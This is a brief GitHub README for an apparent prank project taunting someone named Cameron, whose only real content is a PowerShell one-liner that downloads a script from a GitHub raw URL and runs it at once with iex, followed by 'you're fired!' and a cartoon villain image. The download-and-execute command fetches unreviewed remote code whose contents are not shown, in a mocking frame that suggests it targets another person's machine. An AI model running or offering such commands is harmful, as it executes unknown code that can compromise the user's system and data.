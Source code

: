 # YWTTC = You Won This Time Cameron!
#### But we all know who's gonna be the ultimate winner!!
```powershell
iex ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/Refr3sh/YWTTC/main/Main.ps1'))
```

Also, you're fired!\
![alt text](https://banner2.cleanpng.com/20180525/lwh/kisspng-dexter-s-laboratory-mandark-s-lab-cartoon-networ-5b087754a2c022.5414427515272814926666.jpg)
